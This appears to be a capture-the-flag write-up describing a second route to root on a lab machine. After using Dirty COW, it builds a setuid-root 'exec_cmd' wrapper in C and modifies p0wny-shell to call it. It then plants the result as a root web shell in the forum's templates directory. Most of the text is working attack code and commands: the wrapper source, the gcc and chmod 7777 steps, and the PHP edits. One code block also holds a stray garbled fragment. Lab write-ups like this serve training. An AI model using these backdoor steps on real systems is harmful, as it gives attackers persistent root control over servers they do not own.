

# Dirty cow + P0wny-Shell backdoor

We will use the same method of the 1st solution (starting after the dirty cow upload part)

At this state, we have a the dirty cow exploit on the machine. We will run it to create the new `root` user with the new password `easywin`.

In the 1st solution, we had a reverse shell to get the root shell. In this method, we will add a php page in the forum to get a root shell in the browser.

Using [**p0wny-shell**](https://github.com/flozz/p0wny-shell). P0wny-shell is a php single-page that emulate a shell and execute some commands on the server.

But in this case, we have some problems. The apache2 server is running as www-data, not root. So, the commands launched by the php code will be executed as www-data.

To bypass this, we will make a binary `exec_cmd` with the suid/sgid root for executing commands

```c
#include <stdio.h>backdoor binary

int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
```

Build it and add it in the path, on the root shell

```
$ cat > /usr/bin/exec_cmd.c << EOF
#include <stdio.h>

int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
EOF
```

```
$ gcc /usr/bin/exec_cmd.c -o /usr/bin/exec_cmd

$ chown root:root /usr/bin/exec_cmd && chmod 7777 /usr/bin/exec_cmd
```

Now, we need to modify the original `p0wny-shell` file, to execute commands with our binary. Let's see where the commands are executed.

```php
function featureShell($cmd, $cwd) {
    $stdout = array();

    if (preg_match("/^\s*cd\s*$/", $cmd)) {
        // pass
    } elseif (preg_match("/^\s*cd\s+(.+)\s*(2>&1)?$/", $cmd)) {
        chdir($cwd);
        preg_match("/^\s*cd\s+([^\s]+)\s*(2>&1)?$/", $cmd, $match);
        chdir($match[1]);
    } elseif (preg_match("/^\s*download\s+[^\s]+\s*(2>&1)?$/", $cmd)) {
        chdir($cwd);
        preg_match("/^\s*download\s+([^\s]+)\s*(2>&1)?$/", $cmd, $match);
        return featureDownload($match[1]);
    } else {
        chdir($cwd);
        exec($cmd, $stdout);
    }

    return array(
        "stdout" => $stdout,
        "cwd" => getcwd()
    );
}

function featureHint($fileName, $cwd, $type) {
    chdir($cwd);
    if ($type == 'cmd') {
        $cmd = "compgen -c $fileName";
    } else {
        $cmd = "compgen -f $fileName";
    }
    $cmd = "/bin/bash -c \"$cmd\"";
    $files = explode("\n", shell_exec($cmd));
    return array(
        'files' => $files,
    );
}
```

We can see 2 interesting lines

```php
exec($cmd, $stdout);
...
$cmd = "/bin/bash -c \"$cmd\"";
$files = explode("\n", shell_exec($cmd));
```

We will change it like this:

```php
exec("exec_cmd '" . $cmd . "'", $stdout);
...
$cmd = "/bin/bash -c \"$cmd\"";
$files = explode("\n", shell_exec("exec_cmd '" . $cmd . "'"));
```

Now upload the file with the same `cat` method

```
$ cat > /var/www/forum/templates_c/shell.php << EOF
<paste>
EOF
```

We have our php backdoor with a nice terminal emulation on the page `/var/www/forum/templates_c/shell.php`



All of this is automated with the script `dirtycow_p0wny.py`

:checkered_flag:
